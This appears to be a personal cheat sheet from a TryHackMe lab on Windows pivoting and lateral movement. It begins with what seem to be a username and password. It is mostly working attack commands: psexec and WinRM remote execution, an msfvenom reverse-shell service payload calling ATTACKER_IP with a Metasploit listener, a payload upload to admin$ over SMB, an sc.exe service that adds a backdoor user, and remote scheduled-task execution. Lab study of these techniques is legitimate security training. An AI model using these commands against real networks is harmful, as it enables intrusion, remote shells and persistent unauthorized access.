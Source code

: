 # Pivoting and lateral movement
```
allan.wilkinson
```

```
Xhlb3351
```

Lateral movement is bouncing between different hosts on the network. With each new host owned, more credentials and access may be available, which may lead to more boxes owned. This cycle of enumerating access on the network is called lateral movement and it is a cyclical process like port/service enumeration.

It's important to know the difference between administrator types:
- Local accounts in the local Administrator group
	- Remote access is limited with medium level integrity token. (minus build in Administrator account)
- Domain accounts in the local Administrators group


## Remote commands
### Psexec
- Port 445
- Requires `Administrators` group membership

```cmd.exe
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

### WinRM
- Port 5985, 5986
- Requires `Remote Management Users` group membership

```cmd
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# interactive session
Enter-PSSession -Computername TARGET -Credential $credential

# single commands
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

### SC
- Port 135, 139, 445
- Requires `Administrators` group membership

create an `exe-service` payload with `msfvenom`
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

copy the binary file over using SMB
```bash
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA.TRYHACKME.COM '//thmiis.za.tryhackme.com/admin$/'
```

set up a listener

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```



```cmd
# Create a service
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto

# Start the service
sc.exe \\TARGET start THMservice

# stop the service
sc.exe \\TARGET stop THMservice

# delete the service
sc.exe \\TARGET delete THMservice
```

### Scheduled Tasks
```cmd
# Create a scheduled task
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

# Run the scheduled task
schtasks /s TARGET /run /TN "THMtask1" 

# Delete a scheduled task
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

